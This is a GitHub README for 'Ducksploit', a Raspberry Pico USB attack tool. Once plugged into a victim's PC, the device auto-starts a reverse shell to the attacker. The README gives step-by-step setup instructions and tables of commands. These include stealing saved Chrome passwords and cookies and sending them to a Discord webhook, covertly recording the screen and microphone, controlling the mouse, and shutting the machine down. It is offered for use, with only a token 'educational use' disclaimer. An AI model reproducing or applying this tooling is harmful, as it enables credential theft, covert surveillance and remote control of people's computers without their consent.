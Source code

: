 ![banner](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/banner.png?raw=true "banner")

 # Ducksploit
 ![](https://img.shields.io/badge/Version-1.0.3-red) ![](https://img.shields.io/github/stars/canarddu38/DUCKSPLOIT) ![](https://img.shields.io/github/issues/canarddu38/DUCKSPLOIT) ![](	https://img.shields.io/github/forks/canarddu38/DUCKSPLOIT) ![](https://img.shields.io/github/license/canarddu38/DUCKSPLOIT)


## Install Ducksploit

#### Hacker
###### setup raspberry pico
   1. Download https://github.com/canarddu38/DUCKSPLOIT/archive/root.zip
   2. Extract downloaded zip file
   3. Go in PICO SETUP folder
   4. Plugg your raspberry pico on your PC with the BOOTSEL button
   [![picobootbutton](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/picoboot.png?raw=true "picobootbutton")](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/picoboot.png?raw=true "picobootbutton")
   5. Move CircuitPython.uf2 file in the E:\ usb port (port of your pico)
now your raspberry pico gonna leave usb port and reconnec with CIRCUITPY name
   6. Erase all the content of your raspberry pico and copy 'copy' folder into him
   7. Write myip.txt and write your own IP
   8. Now your raspberry pico is full configured , unplugg your pico and done!


###### setup ducksploit commands




   1. Download https://github.com/canarddu38/DUCKSPLOIT/archive/root.zip
   2. Extract downloaded zip file
   3. Go in SERVER folder
   4. If python is not installed, launch 'installpython.bat' or download at https://www.python.org/ftp/python/3.8.0/python-3.8.0.exe
   5. Install python requirements using 'installrequirements.bat' script
   6. launch setup.bat       ###MUST BE RUN AS ADMINISTRATOR###
   7. Ducksploit is now installed on your PC :smile:
   8. Type 'ducksploit' in the cmd
   9. Config your ip using 'ipconfig' (your ip)
   10. Wait victim's connection using 'wait' command
   11. Have fun with ducksploit hacking commands (type help to get commands list)

#### Victim
Just plugg the raspberry pico in your pc (or hacker can do also)
That will start automaticaly the client of the reverse shell

:warning: Ducksploit is made for legal use or educational use :warning:

## Uninstall Ducksploit

   1. type 'ds uninstall' in cmd
   2. Done  :smile:

## SUPPORT
<noscript><a href="https://paypal.me/canarddu38"><img alt="Donate 👍 using Paypal" src="https://www.paypalobjects.com/webstatic/mktg/Logo/pp-logo-200px.png"></a></noscript>

## **Commands**

#### Launch
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| wait    | wait | wait your victim's connection |

#### Config
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| ipconfig  | ipconfig (your ipv4) | config your ip |

#### Account
| Command | Usage    | Result |
| ------------- | ------------- | ------------- |
| register | register | reconfigure your account |
| accountinfo | accountinfo | view all your account's infos |

#### Exploits
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| stealpwds | stealpwds (discord webhook url) | steal all saved chrome passwords of your victim and send them into a discord webhook |
| stealcookies  | stealcookies (discord webhook url) | steal all saved chrome cookies of your victim and send them into a discord webhook |
| open  | open (applicationname.exe) | open mensioned application |
| recordscreen  | recordscreen (time in second) | record victim's screen durring amount of time |
| recordmicro  | recordmicro (time in second) | record victim's micro durring amount of time |

#### Mouse
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| mouseclick | mouseclick [left, right, middle] | make the victim click the mensionned button |
| mousemove | mousemove (x) (y) | move the victim's cursor by x and y pixels |
| mousescroll | mousescroll (int between -1000 and 1000) | make the user scroll by int pixels |
| locatemouse | locatemouse | get the victim's cursor current locations |

#### Alert Window
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| msg | msg [-file, -text] (title) (line1) (line2) | create an alertbox and send it on the vitim's pc with a title and 2 lines (if -file set line1 to createfile command content) |
| createfile | createfile (text) | set the content of line1 of msg command |

#### Troll
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| skull   | skull | spam cmds with skull and crossbones |

#### Mysc
| Command      | Usage       | Result                            |
|--------------|-------------|-----------------------------------|
| uninstall    | uninstall   | uninstall ducksploit              |
| update       | update      | update ducksploit                 |
| credits      | credits     | view ducksploit's credits         |
| exit         | exit        | exit from the ducksploit treminal |
| help         | help        | getting the list of all commands  |
| shutdown     | shutdown    | make the victim's pc shutdown     |
| reboot       | reboot      | make the victim's pc reboot       |
| closesession | closesesion | make the victim's session close   |
